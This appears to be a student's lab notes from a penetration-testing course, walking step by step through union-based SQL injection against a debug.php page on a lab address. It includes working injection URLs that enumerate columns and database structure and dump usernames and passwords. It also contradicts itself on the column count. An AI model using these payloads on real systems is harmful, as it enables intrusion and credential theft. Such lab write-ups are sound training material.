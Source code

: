 9.4.5.9

# 9.4.5.9
## 9.4.5.9.1. Enumerate the structure of the database using SQL injection.

In this example, we will use the debug.php to demonstrate this. We input the following and see an SQL syntax error, which might signal the presence of SQLi vulnerability.
`http://192.168.214.10/debug.php?id='`
![fb752a781aef1452d9cc82e39d94b887.png](../../_resources/308883c46919478f964c46370e24cfb3.png)

### Column Number enumeration
Observe `http://192.168.214.10/debug.php?id=1 order by 1`
![d378d7911c4a01f61a88e09bea402a65.png](../../_resources/fc8d6f2159b445ceaea6025678867eea.png)

Open Burpsuite and send the same order by 1 record to Repeater. Notice it is percent encoded. Check the response for 'Error'. We find no errors.
![e5e0eed1430ba3956968d27fc551e432.png](../../_resources/8164baf33bbe4d9681430e52afe1d0c5.png)

Change the GET request to order by 2. Again no errors.
![c5111ace93bafe0af10e145dc7c2bc6b.png](../../_resources/bd4c5085c8e042b5a5bbf0869995a64d.png)

Change the GET request to order by 3. Again no errors.
![bb58676acfcfe555c016af66feedd05e.png](../../_resources/d76550d2a5034a32a0d6da63ebf6a9b5.png)

Change the GET request to order by 4. We find an error. This means that there are 4 columns in this query.
![69c447b330cb11e32a54c6e76653dc08.png](../../_resources/f59182f13ad94e169e1e3471ba57428d.png)

### Understand the layout of the output
We know there are 3 columns, and we observe the "1" does not render, but "2" renders in the username column, and "3" renders in the comment column. The comment column is suitable for our exploit because it has more space.
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, 3`
![658a42d13ac69162325da9d77cb067f9.png](../../_resources/5c5ee94bed9f44fba3ee65ba009dcaff.png)

### Extracting data from the database
Get the version
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, @@version`
![246e1bf2cdc5d997fa7a930c65caf88b.png](../../_resources/d2c6d36c41c24d4a87cb92ca159c09fd.png)

Get the current database user
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, user()`
![c979f2f58f7dfb5ee3cf65737dc26c12.png](../../_resources/978f30817b1e4e728677f009c62887fe.png)



## 9.4.5.9.2. Understand how and why you can pull data from your injected commands and have it displayed on the screen.



## 9.4.5.9.3. Extract all users and associated passwords from the database.
Get the database tables and column structures. The 'usernames' table looks interesting.
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables`
![ffc5866d0b4851a3e022b2ec439c409e.png](../../_resources/d0e7b917bafb4c94bd340da48f1e598b.png)

Get the column names from the users table
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'`
![2d207679a9f45767765f2c709e8147fd.png](../../_resources/81d763083e0443728ef6097ac3c4baaf.png)

Display the usernames and passwords from the users table
`http://192.168.214.10/debug.php?id=1 union all select 1, username, password from users`
![e38944bb26a68efa8cbce56b79738961.png](../../_resources/640ea20273ed41148e143566428932fa.png)

